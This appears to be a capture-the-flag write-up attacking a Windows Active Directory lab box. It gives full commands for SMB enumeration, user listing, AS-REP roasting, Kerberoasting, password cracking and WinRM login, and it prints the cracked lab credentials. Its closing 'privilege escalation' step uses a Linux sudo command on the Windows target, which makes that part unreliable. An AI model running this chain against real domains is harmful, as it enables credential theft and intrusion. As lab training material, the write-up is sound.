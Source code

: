 ```yaml
---
layout: post
author: Fr4nSec
tags: [Windows, SMB,]
---
```


## Objectives

- Obtain the user flag
- Obtain the system flag (root)

## Recon

Let's scan the target IP address..

```
nmap -p- -sS --min-rate 5000 -n -Pn 10.10.216.196
```
![scan1](/images/scan1.jpg)

Once we have a list of open ports, let's scan those ports more in depth.

```
nmap -p 53,135,139,389,445,464,636,3268,5985,9389 -sCV 10.10.216.196 > PortScan
cat PortScan
```

![scan2](/images/scan2.jpg)

We can see some information like domain name and the host.

- Domain: vulnnet-rst.local0
- Host: WIN-2BO8M1OE1M1

Port 445 (SMB) is open. Let's see what we can retrieve from there.

```
smbmap -H 10.10.216.196 -u anonymous
```

![smb1](/images/smb1.jpg)




## Exploitation

IPC$ seems to be readable. That means we might be able to ennumerate names of domain accounts. Let's try:

```
impacket-lookupsid anonymous@10.10.216.196
```

![smb2](/images/smb2.jpg)

We can see some user names, let's strip out the data we don't need. Copy the result to a file and run the below to keep only the user names.

```
cat fullinfo.txt | grep SidTypeUser | awk -F'\' '{print $2}' | awk -F'(' '{print $1}'
```

![users1](/images/users.jpg)

Now, having a list of users, let's try to harvest AS_REP responses to see if we can get a hash. (The IP changed because i had to restart the target machine).

```
impacket-GetNPUsers 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip 10.10.171.250
```
![hash1](/images/hash1.jpg)

We obtained the hash for the user t-skid. We can try brute force it:

```
john hash1 --wordlist=/home/kali/rockyou.txt 
```

![crackedhash](/images/crackedhash.jpg)

Now let's try to find some SPN associated with user accounts. Result should be a file with encrypted password(s).

```
impacket-GetUserSPNs 'VULNNET-RST.local/t-skid:tj072889*' -outputfile hashes -dc-ip 10.10.171.250 
```

![GetUserSPNs](/images/SPN.jpg)

![hash2](/images/hash2.jpg)

Now we can try crack it the same way as before:

![cracked2](/images/cracked2.jpg)

We have now the cracked password for the account **'enterprise-core-vn'**. Let's attempt a remote connection:

```
evil-winrm -i 10.10.171.250 -u 'enterprise-core-vn' -p 'ry=ibfkfv,s6h,' 
```

![remote](/images/remote.jpg)

It worked! Let's try find the flag. Usually is in the same folder or near.

![flag1](/images/flag1.jpg)

And we got the first flag. 

Now let's map the SMB again but this time with a valid user.

```
smbmap -H 10.10.171.250 -u enterprise-core-vn -p 'ry=ibfkfv,s6h,'
```

![smb3](/images/smb3.jpg)

We get shares that are now readable. Let's dig more.

```
smbclient \\\\10.10.171.250\\SYSVOL -U 'enterprise-core-vn%ry=ibfkfv,s6h,'
```

![sysvol](/images/sysvol.jpg)

We found some interesting folders. Let's dig.

![scripts](/images/script.jpg)

We found a script and when we check what does it do, we find some credentials for user **a-whitehat**!

![scriptcreds](/images/scriptcreds.jpg)



## Privilege escalation

Let's check if sudo has any additional configuration..

```
sudo cat /root/root.txt
```
